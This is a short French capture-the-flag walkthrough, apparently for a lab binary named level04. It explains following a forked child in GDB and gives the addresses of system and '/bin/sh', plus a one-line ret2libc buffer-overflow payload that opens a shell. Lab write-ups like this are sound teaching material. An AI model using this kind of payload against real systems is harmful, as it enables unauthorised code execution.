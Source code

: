 # Walkthrough

Ce niveau est globalement identique au niveau 01, avec l'exception que cette fois
le buffer overflow ce fait dans un processus enfant.

Ansi, par défaut, GDB ne va pas détecter les crashs du processus enfant. Pour
qu'il s'occupe de suivre le processus, il faut utiliser la commande
`set follow-fork-mode child`.

Avec ça, on peut utiliser la même méthode que dans le niveau 01.

| /bin/sh    | system     |
---------------------------
| 0xf7f897ec | 0xf7e6aed0 |

```
(python -c "print 'a' * 156 + '\xd0\xae\xe6\xf7' + '0000' + '\xec\x97\xf8\xf7' " ; cat -) | ./level04
```
